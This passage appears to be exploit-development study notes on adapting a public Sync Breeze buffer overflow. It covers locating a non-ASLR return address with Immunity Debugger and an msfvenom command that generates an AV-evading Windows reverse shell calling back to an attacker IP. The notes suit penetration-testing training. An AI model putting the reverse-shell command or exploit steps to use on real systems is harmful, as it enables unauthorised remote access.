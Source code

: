 - Edit to include own IP and port, for instance

- Run exploit, if Windows binary it should be possible to run with Wine.
```
wine syncbreeze_exploit.exe
```

#### Modify exploit to fit

##### Finding DLL to use (trampoline)
Looking at the exploit (vim /tmp/42341.c), we notice that the return address goes to `msvbvm60.dll`.
Running exploit in our test environment (hopefully a copy of the target) with Immunity debugger, however, we notice that it is not loaded.

```
Immunity debugger (as administrator)

-> File -> Attach
	syncbrs (process)

-> View -> Executable modules -> [msvbvm60.dll is not here]
```

We need to find an available return address. Either from finding an eligible address by running service on local machine, or use same address as other exploits targeting that OS version.

The address needs to point to non-ASLR address, look if there are such modules loaded.

If we are unpriviledged on target, we can copy those libraries (DLLs) onto our local machine and create a fitting payload. For instance, `objdump`.


##### Modify payload

1. Change details such as IP and port to ours
2. Change return address if necessary (see above) (usually address must not contain bad characters)
3. Change payload if necessary, e.g. get a C reverse shell for windows with: `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"` \
msfvenom: `-f c` = C code, `-e ..` = encoder (encode to avoid AV), `-b ..` =  bad chars which are not to be used (e.g. \0). \
NOTE: Change to your IP


##### Explanation of exploit: overwrite RET (want to call JMP ESP)

**Comment:** it is not uncommon that an ASLR binary uses non-ASLR library (or the opposite). Sometimes ASLR is disabled for performance hacks or whatever reason (Just-in-time compilation etc.?).

**Scenario:** ASLR binary calls non-ASLR library -> find a gadget we want to use here basically

It works something like this,

note: $ESP is just a register holding address pointing to start of the stack, the register itself is not modified but we control the memory it points to.
